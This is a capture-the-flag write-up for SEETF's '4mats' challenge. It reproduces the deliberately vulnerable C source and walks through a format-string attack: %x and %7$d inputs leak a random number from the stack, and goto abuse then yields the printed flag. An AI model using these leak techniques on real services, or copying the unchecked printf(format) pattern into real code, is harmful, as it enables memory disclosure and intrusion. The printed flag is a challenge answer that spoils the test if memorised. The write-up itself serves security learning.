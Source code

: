 # 4mats
![](Pasted%20image%2020220605222415.png)

## Solution

Well my writeup while doing the challenge got lost so I had to redo this challenge. Fortunately it was a fun take on the format string vulnerability.

### Analysis

I read the source code given in `vuln.c`

```
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char name[16];
char echo[100];
int number;
int guess;
int set = 0;
char format[64] = {0};


void guess_me(int fav_num){
    printf("Guess my favourite number!\n");
    scanf("%d", &guess);
    if (guess == fav_num){
        printf("Yes! You know me so well!\n");
	system("cat flag");
        exit(0);}
   else{
       printf("Not even close!\n");
   }
       
}


int main() {

mat1:
    printf("Welcome to SEETF!\n");
    printf("Please enter your name to register: %s\n", name);
    read(0, name, 16);

    printf("Welcome: %s\n", name);

    while(1) {
mat2:
        printf("Let's get to know each other!\n");
        printf("1. Do you know me?\n");
        printf("2. Do I know you?\n");

mat3:
        scanf("%d", &number);


        switch (number)
        {
            case 1:
                srand(time(NULL));
                int fav_num = rand() % 1000000;
		set += 1;
mat4:
                guess_me(fav_num);
                break;

            case 2:
mat5:
                printf("Whats your favourite format of CTFs?\n");
		read(0, format, 64);
                printf("Same! I love \n");
		printf(format);
                printf("too!\n");
                break;

            default:
                printf("I print instructions 4 what\n");
		if (set == 1)
mat6:
                    goto mat1;
		else if (set == 2)
		    goto mat2;
		else if (set == 3)
mat7:
                    goto mat3;
		else if (set == 4)
                    goto mat4;
		else if (set == 5)
                    goto mat5;
		else if (set == 6)
                    goto mat6;
		else if (set == 7)
                    goto mat7;
                break;
        }
    }
    return 0;
}

```

The most interesting things is that there are gotos which we could potentially abuse, some like `mat4` even in places where the variables are not initialised properly yet.

### Steps

Firstly I increased `set` to 1

```
┌──(kali㉿kali)-[~/Documents/Notes/SEETF/username_gen]
└─$ nc fun.chall.seetf.sg 50001
Welcome to SEETF!
Please enter your name to register: 
hacker
Welcome: hacker

Let's get to know each other!
1. Do you know me?
2. Do I know you?
1
Guess my favourite number!
0 
Not even close!
```

I then displayed the contents on the stack using the format string vulnerability

```
Let's get to know each other!
1. Do you know me?
2. Do I know you?
2
Whats your favourite format of CTFs?
%x %x %x %x %x %x %x %x %x %x %x %x 
Same! I love 
804a080 40 8048756 1 ffcecec4 ffcececc 85822 f7fbe3dc ffcece30 0 f7e26647 f7fbe000 
too!
```

I increased the value of `set` to 2 and viewed the contents on the stack. Noticed that the 7th value `cf9e5` is different from the previous 7th value `85822`. The only values that changed so far are `set = 2` and `fav_num`. We can hence infer that the 7th value is `fav_num`

```
Let's get to know each other!
1. Do you know me?
2. Do I know you?
1
Guess my favourite number!
0
Not even close!
Let's get to know each other!
1. Do you know me?
2. Do I know you?
2
Whats your favourite format of CTFs?

Same! I love 

x 804a080 40 8048756 1 ffcecec4 ffcececc cf9e5 f7fbe3dc ffcece30 0 f7e26647 
too!
```

I increased the value of `set` to 3 and then to 4

```
Let's get to know each other!
1. Do you know me?
2. Do I know you?
1
Guess my favourite number!
0
Not even close!
Let's get to know each other!
1. Do you know me?
2. Do I know you?
1
Guess my favourite number!
0
Not even close!
Let's get to know each other!
1. Do you know me?
2. Do I know you?
2
```

I displayed the 7th value on the stack in denary.

```
Whats your favourite format of CTFs?
%7$d
Same! I love 
610084
 804a080 40 8048756 1 ffcecec4 ffcececc 94f24 f7fbe3dc ffcece30 0 
too!
```

Lastly, i jumped to `mat4` by not selecting any of the current options, and entered the `fav_num` to get the flag

```
Let's get to know each other!
1. Do you know me?
2. Do I know you?
4
I print instructions 4 what
Guess my favourite number!
610084
Yes! You know me so well!
SEE{4_f0r_4_f0rm4t5_0ebdc2b23c751d965866afe115f309ef}
┌──(kali㉿kali)-[~/Documents/Notes/SEETF/username_gen]
└─$ 

```

## Flag
`SEE{4_f0r_4_f0rm4t5_0ebdc2b23c751d965866afe115f309ef}`